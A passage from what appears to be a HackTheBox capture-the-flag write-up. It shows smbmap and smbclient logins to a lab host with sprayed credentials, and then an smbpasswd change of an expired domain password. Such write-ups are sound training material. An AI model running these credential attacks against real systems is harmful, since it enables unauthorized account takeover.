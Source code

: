 
It’s a bit weird that it found success for two different users with the same
password. My guess is that that is to help with gameplay, especially on free
HTB servers in the steps that come next.

### Login Failures

Now I try to check for shares with `smbmap`, but it fails:

    
    
    root@kali# smbmap -u tlavel -p Fabricorp01 -H 10.10.10.193
    [+] Finding open SMB ports....
    [!] Authentication error on 10.10.10.193
    [!] Authentication error on 10.10.10.193
    root@kali# smbmap -u bhult -p Fabricorp01 -H 10.10.10.193
    [+] Finding open SMB ports....
    [!] Authentication error on 10.10.10.193
    [!] Authentication error on 10.10.10.193
    

Better error messages came back from `smbclient`. When I enter a bad password:

    
    
    root@kali# smbclient -U bhult -L \\\\10.10.10.193
    Enter WORKGROUP\bhult's password: 
    session setup failed: NT_STATUS_LOGON_FAILURE
    

But when I enter the password that `hydra` found:

    
    
    root@kali# smbclient -U bhult -L \\\\10.10.10.193
    Enter WORKGROUP\bhult's password: 
    session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
    

### Change Password

It looks like I have valid creds, but the machine is set to require a password
change. To make this change, I can use `smbpasswd` from Kali. I’ll run it with
`-r [ip]`, give it the old password, then a new one. If I pick a pass that
doesn’t meet the password policy, I’ll see an error like:

    
    
    machine 10.10.10.193 rejected the password change: Error was : When trying to update a password, this status indicates that some password update rule has been violated. For example, the password might not meet length criteria..
    

When I change it to `0xdf!!!!`, it works:

    
    
    root@kali# smbpasswd -r 10.10.10.193 bhult
    Old SMB password:
    New SMB password:
    Retype new SMB password:                                   
    Password changed for user bhult on 10.10.10.193.
    